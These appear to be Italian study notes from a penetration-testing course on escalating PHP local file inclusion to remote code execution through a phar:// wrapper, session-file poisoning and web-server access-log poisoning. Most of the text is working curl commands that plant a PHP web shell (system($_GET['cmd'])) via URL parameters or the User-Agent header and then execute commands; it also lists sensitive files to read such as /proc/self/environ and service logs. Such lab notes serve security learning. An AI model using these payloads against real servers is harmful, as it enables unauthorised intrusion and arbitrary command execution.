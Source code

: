 visita

```shell
$ curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

# PHP Session Poisoning

I file di sessione, con impostazione di default, si trovano in:
- `/var/lib/php/sessions/` (linux)
- `C:\Windows\Temp\` (windows)
e hanno prefisso `sess_`. Quindi se abbiao un id di sessione `ciao`, il file e' `/var/lib/php/sessions/sess_ciao`

Prediamo il valore del cookie di sessione proviamo a fare una get

```shell
$ curl http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
ci accorgiamo che ha come valori `page` e `preference`. Il valore `page` arriva direttamente dall'url visitato
quindi se visitiamo `?language=session_poisoning` poi otteniamo un `page: session_poisoning`

se utilizziamo, invece di una semplice stringa, un payload malevolo otteniamo una RCE

```shell
$ curl http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
$ curl http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

# Server log poisoning
Sia Apache che Nginx mantengolo log di accesso e di errore. Attenzione per nginx non serve essere root, per leggere i log di apache si.

L'`access.log` salva tra le altre cose anche lo `User-Agent`, parametro sotto il nostro controllo. 

```shell
# nota nello skill assesment (log di nginx) ho dovuto metterlo senza virgolette
# <?php system($_GET[cmd]); ?>
# altrimenti si rompeva tutto 

$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
$ curl -s http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log?cmd=id
```

utile anche per ottenere file tipo `/proc/self/environ` o `/proc/self/fd/N` (con N processid, tipicamente tra 0 e 50)
o anche altri file:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`
